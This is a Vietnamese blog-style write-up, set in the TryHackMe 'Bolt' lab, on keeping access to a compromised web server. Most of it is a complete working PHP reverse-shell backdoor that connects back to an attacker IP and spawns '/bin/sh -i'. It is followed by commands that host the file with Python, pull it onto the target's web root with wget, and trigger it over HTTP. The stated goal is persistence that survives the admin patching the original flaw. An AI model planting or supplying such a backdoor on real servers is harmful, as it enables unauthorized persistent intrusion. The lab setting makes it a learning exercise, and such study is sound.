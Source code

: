 # Basic reverse shell

Bài này sử dụng room Bolt-TryHackMe để thử reverse shell với mục đích là duy trì session sau khi đã hack được vào target machine.

Link Bolt:  https://tryhackme.com/room/bolt

> Vì để ngắn gọn nên mình không viết lại cách tấn công room Bolt mà sẽ để link ở đây cho các bạn tham khảo.

Link wu Bolt: https://github.com/daemon104/Writeups-TryHackMe/tree/main/Bolt

---
## Mục đích và Ý tưởng

Sau khi tấn công thành công 1 target, thường thì hacker sẽ tìm cách để duy trì kết nối đó phục vụ cho nhiều mục đích khác. Có nhiều tác vụ truy cập sâu cần tốn thời gian để chạy hay là phòng khi admin fix lỗ hổng đó rồi thì hacker không thể exploit lại được nữa. Do đó việc duy trì kết nối để sau khi hết phiên vẫn có thể truy cập lại được là rất quan trọng.

Có rất nhiều cách để duy trì kết nối, ở đây mình đề xuất ý tưởng cá nhân của mình, đó là upload file backdoor lên máy target sao cho có thể kích hoạt nó từ phía user (thông qua http website) và khi cần thì kích hoạt file backdoor tạo ra 1 reverse connection về máy mình và cấp 1 shell căn bản cho mình để tiếp tục khai thác mà không cần exploit lại.

---
## Backdoor.php

Sau khi tham khảo nguồn trên mạng, mình đã code lại được 1 file backdoor.php để tạo reverse shell căn bản. Shell này khá cùi vì code mình còn quá cùi nhưng vẫn xài được và có thể privilege escalation lên root để dùng (đỡ hơn không có).

Code mình như thế này:

```php=
<?php

//Required variables
$ip = '10.4.41.207';
$port = 7777;
$cmd = '/bin/sh -i';
$buffer = 2000;

//Change directory to safe directory and unset umask
chdir("/");
umask(0);

//Create reverse connection
$sock = fsockopen($ip, $port, $error_code, $error_message, 100);

//Set file description to STDIN, STDOUT and STDERR
$descriptor_spec = array(
    0 => array("pipe", "r"), 
    1 => array("pipe", "w"),  
    2 => array("pipe", "w")   
);

//Create process running in the target machine, 
//exchanging datas to our machine (input, output, error)
$process = proc_open($cmd, $descriptor_spec, $pipes);

//Set non-blocking for our sockets and pipes 
stream_set_blocking($sock, 0);
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);

//Start to transfer data
while (1) {
    $read_array = array($sock, $pipes[1], $pipes[2]);

    //Input: From our machine to target machine through pipes[0]
    if (in_array($sock, $read_array)) {
        $input = fread($sock, $buffer);
        fwrite($pipes[0], $input);
    }

    //Output: From target machine to our machine through socket
    if (in_array($pipes[1], $read_array)) {
        $output = fread($pipes[1], $buffer);
        fwrite($sock, $output);
    }

    //Error: From target machine to our machine through socket
    if (in_array($pipes[2], $read_array)) {
        $error = fread($pipes[2], $buffer);
        fwrite($sock, $error);
    }

    //Check for end of the connection
    if (feof($sock)){
        break;
    }

    if (feof($pipes[1])) {
        break;
    }
}

//Close connection and process
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

?>
```

## Tiến hành thử nghiệm

Đầu tiên, chúng ta tiến hành khai thác lỗi trên server Bolt như trong wu mình viết. Sau khi khai thác xong RCE, mình sẽ có được shell root như sau:

![](https://i.imgur.com/49JGH9T.png)

Mình sẽ cd tới /var/www/html , đây là đường dẫn chứa web service mặc định mà server đang chạy. Mình sử dụng python để dựng server tại port 8801 để host file backdoor.php:

```
python3 -m http.server --bind 0.0.0.0 8801
```

![](https://i.imgur.com/JU00HGW.png)

Tiến hành upload file backdoor.php lên bằng câu lênh:

```
wget 10.4.41.207:8801/backdoor.php
```

![](https://i.imgur.com/YqGOzWK.png)

Thực thi file từ phia user bằng cách vào trang main page host tại port 80 của server và đi tới đường dẫn file backdoor.php (đừng quên mở trước nc ở port bất kì chỉ định để chờ connection tới):

![](https://i.imgur.com/utBtQzo.png)

![](https://i.imgur.com/sA0AhtK.png)

## Kết quả

Thành công có được shell cơ bản, từ giờ ta có thể nâng cấp quyền lên root và tiến hành khai thác sâu hơn mà không cần tới session của metasploit nữa (trong trường hợp admin phát hiện lỗi và fix nó):

![](https://i.imgur.com/sElUI10.png)

![](https://i.imgur.com/c97EuJs.png)

Có rất nhiều cách để duy trì session và qua mặc các tool scan hay anti backdoor rất hay. Ở đây mình chỉ show ra cách cơ bản nhất để tạo reverse shell trong trường hợp server không chặn truy cập file php từ user hay cài anti reverse.


